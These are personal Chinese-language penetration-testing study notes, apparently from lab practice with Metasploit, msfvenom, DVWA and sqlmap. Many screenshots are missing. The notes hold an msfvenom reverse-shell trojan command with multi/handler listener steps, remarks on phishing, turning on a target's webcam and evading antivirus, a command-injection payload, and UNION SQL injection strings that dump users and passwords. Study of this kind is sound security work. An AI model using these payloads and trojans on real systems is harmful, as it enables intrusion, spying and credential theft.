



# **1.** ***\*metasploit笔记\****

## **1.1.** ***\*启动\****

 

## **1.2.** ***\*metasploit攻击windows操作\****

 

### 1.2.1. **永恒之蓝**

 

ip地址为192.168.93.133

 

修改一些基本options后就可以run了（攻打一个windows靶场发现根本没有这个漏洞，尝试了防火墙关闭也尝试了都用net网）

## **1.3.** ***\*注释\****

 

退出：exit

# **2.** ***\*使用kali渗透工具（msfvenom）生成远程木马\****

payload:攻击载荷   format：格式

 

## **2.1.** ***\*钓鱼（不免杀）（局限于局域网）\****

 

 

 

 

 

run之后在被钓鱼机上启动demo9999.exe

 

 

比如查看目标有无摄像头

打开对面摄像头

 

 

总结

 

## **2.2.** ***\*基础免杀\****

捆绑木马·  （备注：现在无法避开火绒）

 

或者加壳（方式很多）

 

## **2.3.** ***\*ai解释\*******\*exploit/multi/handler\****

`exploit/multi/handler` 是 **Metasploit 框架中一个核心且常用的模块**，它的主要作用是充当一个**通用的网络监听器（Payload Handler）**，专门用于**接收来自目标系统的反向连接（Reverse Connection）**。

 

以下是它的详细功能和工作原理：

 

\---

 

\### **核心功能：**

1. **接收反弹连接（Reverse Shell/Connection）**：

  \- 当你在目标系统上成功执行了一个**反向Payload**（如 `reverse_tcp`, `reverse_http`, `meterpreter/reverse_tcp` 等）后，目标系统会主动尝试连接到你控制的机器。

  \- `multi/handler` 就是用来监听这个连接的“接收器”。

 

2. **会话管理（Session Management）**：

  \- 一旦目标系统连接回来，`handler` 会自动创建一个交互式会话（Session）。

  \- 你可以通过这个会话直接控制目标系统（如执行命令、上传文件、权限提升等）。

 

\---

 

\### **为什么需要它？**

\- **场景举例**：

1. 你使用 `msfvenom` 生成一个木马（Payload）：

   \```bash

   msfvenom -p windows/meterpreter/reverse_tcp LHOST=你的IP LPORT=4444 -f exe > payload.exe

   \```

2. 将 `payload.exe` 在目标机器上执行。
3. **此时目标会主动连接你的IP:4444**。
4. 你需要提前在Metasploit中启动 `multi/handler` **监听4444端口**，才能接收到这个连接。

 

\---

 

\### **你看到的提示解析：**

\```bash

msf6 > use exploit/multi/handler 

[*] Using configured payload generic/shell_reverse_tcp

\```

\- 你选择了 `multi/handler` 模块。

\- Metasploit **自动使用了默认配置的Payload**：`generic/shell_reverse_tcp`（一个通用的反向Shell）。

 

\---

 

\### **如何正确使用？**

1. **设置Payload参数**（必须与攻击载荷匹配）：

  \```bash

  msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

  msf6 exploit(multi/handler) > set LHOST 192.168.1.100  # 监听本机IP

  msf6 exploit(multi/handler) > set LPORT 4444      # 监听端口

  \```

 

2. **启动监听**：

  \```bash

  msf6 exploit(multi/handler) > run

  \# 或

  msf6 exploit(multi/handler) > exploit

  \```

 

3. **当目标执行Payload后**：

  \- 你会看到类似提示：

   \```bash

   [*] Sending stage (175686 bytes) to 192.168.1.200

   [*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.200:49158)

   \```

  \- 输入 `sessions -i 1` 即可进入会话控制目标。

 

\---

 

\### **常见用途：**

\- 接收 `msfvenom` 生成的Payload（如EXE、APK、PHP等）。

\- 接收其他工具触发的反弹Shell（如通过漏洞利用、钓鱼攻击等）。

\- 维持稳定会话（如Meterpreter的加密通信、心跳检测）。

 

\---

 

\### **注意事项：**

1. **Payload必须匹配**：

  \- `handler` 的 `payload`, `LHOST`, `LPORT` 必须与目标执行的Payload完全一致。

2. **防火墙设置**：

  \- 确保本机的防火墙允许 `LPORT` 的入站连接（如4444端口）。

3. **网络可达**：

  \- `LHOST` 必须是目标能访问到的IP（公网IP或同一内网IP）。

 

\---

 

\### **总结：**

\> `multi/handler` **不是攻击模块**，而是Metasploit的“**接收器**”。它的唯一任务就是监听指定端口，等待目标主动连接回来。就像特工行动中的“接应人员”——攻击模块（如漏洞利用）负责潜入目标，而 `handler` 负责在安全屋等待目标主动上门接头。

 

如果你正在测试反弹Shell或渗透后维持访问，这个模块是必不可少的工具！

# **3.** ***\*OWASP TOP 10\****

每三年公布一次常见漏洞

比如常见网站漏洞

 

 

# **4.** ***\*DVWA靶场搭建\****

 

 

 

# **5.** ***\*命令执行漏洞\****

## **5.1.** ***\*过程\****

 

 

 

 

 

命令连接符

 

 

## **5.2.** ***\*常用\****

 

## **5.3.** ***\*记录（low）\****

 

 

127.0.0.1&whoami

 

 

## **5.4.** ***\*防御\****

 

 

### 5.4.1. **medium**

 

 

 

 

### 5.4.2. **high**

 

### 5.4.3. **impossible**

 

 

# **6.** ***\*SQL注入漏洞\****

 

 

 

 

 

 

## **6.1.** ***\*解析\****

 

 

## **6.2.** ***\*判断\****

### 6.2.1. **low**

 

## **6.3.** ***\*利用\****

### 6.3.1. **low**

 

1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#（此时在我的dvwa中出现了Illegal mix of collations for operation 'UNION'，ai解释是

而我使用了转化为二进制（使用`BINARY`关键字）来避免排序规则冲突。）

 

 

 

 

1’ union select user,password from users#

 

## **6.4.** ***\*SQLmap工具\****

kali自带，自己电脑上需要先安装python环境再安装sqlmap，再sqlmap文件夹中打开终端并python sqlmap.py

 

 

(cookie能告诉sqlmap”我已经登录了，你不要再登录了，直接帮我跑这个sql注入就行了“)

cookie获取：（火狐）F12进入开发者模式，然后在网络中重新载入（找不到可以ctrl+r刷新）

 

自动检测到有sql注入漏洞

 

 

 

 

（第二个选项选的n，没有爆破，只是显示）

## **6.5.** ***\*防御\****

 

### 6.5.1. **medium**

 

 

 

### 6.5.2. **high**

 

### 6.5.3. **impossible**

 

# **7.** ***\*收集目标信息\****

## **7.1.** ***\*端口扫描\****

 

windows查询自身外联的一个网络状况（端口范围0~65535）

端口扫描是为了发现目标主机开放的端口以及其对应的服务

### 7.1.1. **zenmap**
